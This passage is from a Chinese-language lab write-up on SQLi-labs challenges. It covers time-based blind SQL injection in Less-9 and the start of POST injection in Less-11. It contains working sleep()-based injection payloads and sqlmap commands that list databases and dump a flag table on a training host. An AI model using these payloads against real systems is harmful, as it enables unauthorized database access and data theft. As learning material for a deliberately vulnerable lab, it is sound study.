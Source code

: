 **判断数据库长度**

```sql
?id=1' and if(length((select group_concat(schema_name) from information_schema.schemata))>10,sleep(5),1)--+
```

**判断数据库具体字符**

```sql
?id=1' and if(ascii(substr(((select group_concat(schema_name) from information_schema.schemata)),1,1))>10,sleep(5),1)--+
```

**其他的不演试了，这函数嵌套的太多了**

##### **使用 sqlmap**
**不用 sqlmap 的话，写脚本我不会写，水平有限**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-9/?id=1 --technique T --dbs
```

**这里多了一个新选项，还是看不懂，选是**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732114103339-6aa0d45b-46fa-451a-b5ae-9eccd72ac4a2.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732114314086-100af4c4-8299-4028-bafc-2bd832c20604.png)

**后面还是老套路，直接跳最后一步吧**

```sql
python sqlmap.py -u http://fb38469f-e856-4765-99c5-a785393f23ee.node5.buuoj.cn/Less-9/?id=1 --technique T -D ctftraining -T flag -C flag --dump
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732116546294-d5cb9ccb-bf3d-4399-8974-b9cdfa88f4b4.png)

### POST 型注入
**是把注入点由 get 方式换为了 post 方式**

**以 Less11 为例**

#### 手注
**给了俩框**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732159762288-1c950041-986f-436e-bc2b-d5fbb75b31c6.png)

抓下包

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732159872021-dcbd89ac-8602-46cb-9e5d-b25c18f5dd78.png)

测试一下闭合，输入 1'，出现错误信息，而 1"没有错误信息

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732161165987-c3628174-dd88-4757-bcd8-0f989143073d.png)
